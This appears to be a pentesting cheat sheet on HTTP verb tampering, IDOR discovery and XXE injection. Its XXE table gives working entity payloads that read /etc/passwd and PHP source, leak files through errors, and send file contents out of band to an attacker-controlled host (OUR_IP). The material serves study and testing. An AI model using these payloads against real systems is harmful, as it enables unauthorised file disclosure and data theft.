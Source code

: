 #Cheatsheet #HTTP_Verb_Tampering #IDOR #XEE
## HTTP Verb Tampering

HTTP Methods:
- `HEAD`
- `PUT`
- `DELETE`
- `OPTIONS`
- `PATCH`

|**Command**|**Description**|
|---|---|
|`-X OPTIONS`|Set HTTP Method with Curl|

## IDOR

Identify IDORS:
- In `URL parameters & APIs`
- In `AJAX Calls`
- By `understanding reference hashing/encoding`
- By `comparing user roles`

| **Command** | **Description**        |
| ----------- | ---------------------- |
| `md5sum`    | MD5 hash a string      |
| `base64`    | Base64 encode a string |

## XXE

| **Code**                                                                           | **Description**                                |
| ---------------------------------------------------------------------------------- | ---------------------------------------------- |
| `<!ENTITY xxe SYSTEM "http://localhost/email.dtd">`                                | Define External Entity to a URL                |
| `<!ENTITY xxe SYSTEM "file:///etc/passwd">`                                        | Define External Entity to a file path          |
| `<!ENTITY company SYSTEM "php://filter/convert.base64-encode/resource=index.php">` | Read PHP source code with base64 encode filter |
| `<!ENTITY % error "<!ENTITY content SYSTEM '%nonExistingEntity;/%file;'>">`        | Reading a file through a PHP error             |
| `<!ENTITY % oob "<!ENTITY content SYSTEM 'http://OUR_IP:8000/?content=%file;'>">`  | Reading a file OOB exfiltration                |